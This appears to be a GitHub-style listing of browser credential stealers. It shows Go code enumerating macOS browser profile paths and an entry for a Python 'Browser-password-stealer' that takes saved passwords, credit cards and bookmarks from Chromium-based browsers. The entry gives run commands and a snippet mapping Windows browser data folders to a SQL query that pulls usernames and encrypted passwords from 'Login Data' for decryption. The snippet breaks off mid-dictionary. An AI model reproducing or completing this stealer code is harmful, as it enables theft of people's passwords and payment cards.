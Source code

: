 

*Darwin*

```
var (
	chromeProfilePath     = homeDir + "/Library/Application Support/Google/Chrome/Default/"
	chromeBetaProfilePath = homeDir + "/Library/Application Support/Google/Chrome Beta/Default/"
	chromiumProfilePath   = homeDir + "/Library/Application Support/Chromium/Default/"
	edgeProfilePath       = homeDir + "/Library/Application Support/Microsoft Edge/Default/"
	braveProfilePath      = homeDir + "/Library/Application Support/BraveSoftware/Brave-Browser/Default/"
	operaProfilePath      = homeDir + "/Library/Application Support/com.operasoftware.Opera/Default/"
	operaGXProfilePath    = homeDir + "/Library/Application Support/com.operasoftware.OperaGX/Default/"
	vivaldiProfilePath    = homeDir + "/Library/Application Support/Vivaldi/Default/"
	coccocProfilePath     = homeDir + "/Library/Application Support/Coccoc/Default/"
	yandexProfilePath     = homeDir + "/Library/Application Support/Yandex/YandexBrowser/Default/"
	arcProfilePath        = homeDir + "/Library/Application Support/Arc/User Data/Default"

	firefoxProfilePath = homeDir + "/Library/Application Support/Firefox/Profiles/"
)
```


### Browser-password-stealer

https://github.com/henry-richard7/Browser-password-stealer

This python program gets all the saved passwords, credit cards and bookmarks from chromium based browsers supports chromium 80 and above!


```
pip install -r requirements.txt
python chromium_based_browsers.py
```



How worked:

```
browsers = {
    'amigo': appdata + '\\Amigo\\User Data',
    'torch': appdata + '\\Torch\\User Data',
    'kometa': appdata + '\\Kometa\\User Data',
    'orbitum': appdata + '\\Orbitum\\User Data',
    'cent-browser': appdata + '\\CentBrowser\\User Data',
    '7star': appdata + '\\7Star\\7Star\\User Data',
    'sputnik': appdata + '\\Sputnik\\Sputnik\\User Data',
    'vivaldi': appdata + '\\Vivaldi\\User Data',
    'google-chrome-sxs': appdata + '\\Google\\Chrome SxS\\User Data',
    'google-chrome': appdata + '\\Google\\Chrome\\User Data',
    'epic-privacy-browser': appdata + '\\Epic Privacy Browser\\User Data',
    'microsoft-edge': appdata + '\\Microsoft\\Edge\\User Data',
    'uran': appdata + '\\uCozMedia\\Uran\\User Data',
    'yandex': appdata + '\\Yandex\\YandexBrowser\\User Data',
    'brave': appdata + '\\BraveSoftware\\Brave-Browser\\User Data',
    'iridium': appdata + '\\Iridium\\User Data',
}

data_queries = {
    'login_data': {
        'query': 'SELECT action_url, username_value, password_value FROM logins',
        'file': '\\Login Data',
        'columns': ['URL', 'Email', 'Password'],
        'decrypt': True
    },
```